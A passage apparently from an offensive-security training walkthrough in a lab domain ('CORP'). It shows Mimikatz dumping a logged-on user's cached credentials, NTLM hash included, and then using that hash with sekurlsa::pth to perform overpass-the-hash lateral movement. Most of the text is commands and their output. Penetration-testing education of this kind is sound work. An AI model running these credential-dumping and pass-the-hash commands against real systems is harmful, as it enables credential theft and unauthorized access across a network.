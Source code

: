 ```shell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```

This output shows _jen_'s cached credentials under _jen_'s own session. It includes the NTLM hash, which we will leverage to overpass the hash. The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication. A simple way to do this is with the **sekurlsa::pth** command from Mimikatz.

The command requires a few arguments and creates a new PowerShell process in the context of _jen_. This new PowerShell prompt will allow us to obtain Kerberos tickets without performing NTLM authentication over the network, making this attack different than a traditional pass-the-hash.

```shell
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami